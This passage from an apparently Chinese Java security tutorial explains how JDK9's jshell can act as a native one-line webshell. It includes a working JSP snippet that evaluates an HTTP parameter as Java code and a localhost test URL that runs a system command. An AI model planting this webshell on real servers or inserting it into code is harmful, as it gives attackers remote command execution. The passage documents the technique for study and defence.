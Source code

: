 ![image-20191206114351476](../../images/image-20191206114351476.png)

新版本的JDK已经把这个native方法移除了，可以使用使用`java.lang.invoke.MethodHandles.Lookup.defineClass`来代替，MethodHandles不过是间接的调用了ClassLoader的defineClass罢了。

5. **jshell eval**

JDK9 开始提供了一个叫 jshell 的功能，让开发者可以像 python 和 php 一样在命令行下愉快的写测试代码了。JDK9 已经发布距今 2 年时间了，但在生产环境下使用 JDK8 以上的应用依旧寥寥无几。不过我们只需要利用这一特性其实是可以实现任意代码执行了，也就是说正真意义上的原生的 java 一句话木马。

测试代码：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

测试URL：http://localhost:8080/shell?src=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(Runtime.getRuntime().exec(%22pwd%22).getInputStream())).readLine()

效果：

![image-20191205133325909](../../images/image-20191205133325909.png)

关于 Java 语言特性的部分将在下一章进行叙述，本部分仅提供了示例代码。